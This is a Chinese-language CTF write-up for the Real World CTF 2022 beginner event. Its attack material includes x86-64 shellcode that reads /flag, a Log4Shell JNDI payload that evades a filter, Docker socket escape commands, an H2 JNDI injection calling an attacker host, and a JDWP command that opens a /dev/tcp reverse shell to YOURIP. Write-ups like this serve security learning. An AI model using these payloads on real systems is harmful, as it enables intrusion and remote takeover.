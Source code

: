 ```yaml
---
title: Real World CTF 2022 体验赛部分题目 writeup
date: 2022-01-23 13:37:33
tags:
- ctf
---
```


这场比赛是体验赛，签到题较多，没有设置过多的障碍，个人完成了其中的5题

<!--more-->

## Remote Debugger

题目提供了一个远程`GDB`环境调试一个简单程序，程序内只引用了`getchar`和`putchar`所以没有办法通过`p system()`之类的手段访问容器内的`flag`。但是我们可以通过手写`shellcode`的方式替换原来的程序执行`shellcode`

我最先尝试的是传一个反弹`shell`，在本地能够跑通但一放到题目的环境上就`SIGKILL`不知道为什么

最后手写了`shellcode`将`flag`写到`[rsp]`上

```assembly
section .text
  global _start
    _start:
        push rbp
        mov rbp,rsp
        xor rdx, rdx

        push 2
        pop rax ; syscall 2 -> read(*filename, flags, mode)
        push 0
        pop rsi ; flags -> 0 RO
        push 644
        pop rdx ; mode -> 644
        sub rsp, 8
        mov dword [rsp+4], 0x067
        mov dword [rsp], 0x616c662f ; -> /flag
        lea rdi, [rsp]
        add rsp, 8
        syscall

        push rax
        pop rdi ; rdi -> file handler
        push 0
        pop rax ; sys_read(fd, buf, count)
        push 30
        pop rdx ; count -> 30
        lea rsi, [rsp] ; buf -> rsp
        syscall
    _loop:
        jmp _loop ; 防止跑过头出错
```

编译：

```sh
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode.hex
for i in `objdump -d shellcode.hex | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```

执行：

```sh
target remote 106.14.170.199:1234
set $rip = main
restore shellcode binary $rip # 把 shellcode 写到 main 上 （处于可执行区段即可）
// Ctrl + C
x/s $rip
```

![gdb](gdb.png)

## log4flag

这一题没有什么好说的，就是最新的`log4j`漏洞

需要注意的是给出的程序有`filter`进行简单过滤：`(\$\{jndi:)|(ldap:)|(rmi:)`

这个可以用`toLower`来绕过

直接使用`poc`：[kozmer/log4j-shell-poc: A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. (github.com)](https://github.com/kozmer/log4j-shell-poc)

构造`payload`：

```
${${lower:j}ndi:${lower:l}dap://YOURIP/a}
```

## Be-a-Docker-Escaper

观察到容器映射了`docker.sock`

所以直接在容器内开一个新的容器去`cat flag`即可

命令：

```sh
apt-get update && apt-get install -y wget # 安装工具
wget https://download.docker.com/linux/static/stable/x86_64/docker-20.10.9.tgz # 下载 docker 我们只需要里面的 docker cli 就行
tar -xf docker-20.10.9.tgz
cd docker
./docker -H unix:///s run --rm -v /root/flag:/flag alpine cat /flag # 使用映射进来的 docker.sock 操作宿主的 docker 创建新容器并映射 flag
```

![docker](docker.png)

## Be-a-Database-Hacker 2

给出了一个带版本号的`h2`直接根据`2.0.202`搜索`CVE`发现：`CVE-2021-42392`

该`CVE`有人详细分析过：

1. https://0x0021h.github.io/2022/01/10/22/index.html
2. http://www.mastertheboss.com/jbossas/jboss-datasource/what-you-need-to-know-about-cve-2021-42392/

使用和`log4flag`一样的`poc`脚本

将`Driver Class`填入`javax.naming.InitialContext`

`JDBC URL`填入`ldap://YOURIP/a`

即可获得反弹`shell`

## Java Remote Debugger

原题？[浅析常见Debug调试器的安全隐患 - 博客 - 腾讯安全应急响应中心 (tencent.com)](https://security.tencent.com/index.php/blog/msg/137)

使用脚本：https://github.com/IOActive/jdwp-shellifier

```sh
python2 ./jdwp-shellifier.py -t 139.196.23.201 -p 8888 --break-on java.lang.String.indexOf --cmd 'bash -c {echo,BASE64ENCODEDSHELLCODE}|{base64,-d}|{bash,-i}'

BASE64ENCODEDSHELLCODE => /bin/bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1
```

![shell](shell.png)
